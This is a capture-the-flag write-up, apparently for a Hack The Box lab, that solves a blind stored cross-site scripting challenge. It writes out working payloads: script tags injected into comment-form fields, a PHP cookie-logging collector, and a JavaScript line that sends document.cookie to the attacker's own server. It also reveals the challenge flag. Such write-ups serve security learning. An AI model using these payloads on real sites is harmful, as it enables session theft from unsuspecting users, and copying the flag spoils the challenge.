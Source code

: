 ## Challenge

What is the value of the 'flag' cookie? 

## Solution

I start by fuzzing the webpage, as it doesn't have a usual homepage at `index.php`:

```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt:FUZZ -u http://10.129.12.174/FUZZ -t 100
```

This found me a directory at `assessment`, and when I visit that I see a blog, and I click on the post `Welcome to Security Blog`.

In the post I can post comments, where there is a form to fill, with comment, name, email, and website.

I fill the fields with the `"><script src=http://10.10.15.68:8000/fullname></script>` with the `fullname` changed based on the field name.

I start a php server with `php -S 0.0.0.0:8000 -t .`.

INFO: `10.10.15.68` was the IP address that I was using.

When I send the filled form, on my php server I received the `10.129.12.174:55626 [200]: GET /website` meaning that this filed is vulnerable.

On the directory where I started the server, I created the following files:

index.php
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

script.js
```js
new Image().src='http://10.10.15.68:8000/index.php?c='+document.cookie
```

Then, on the vulnerable field `website`, I put the following:

```html
"><script src=http://10.10.15.68:8000/script.js></script>
```

And then on my directory I check the `cookies.txt` where among the cookies is the flag: `Cookie:  flag=HTB{cr055_5173_5cr1p71n6_n1nj4}`.

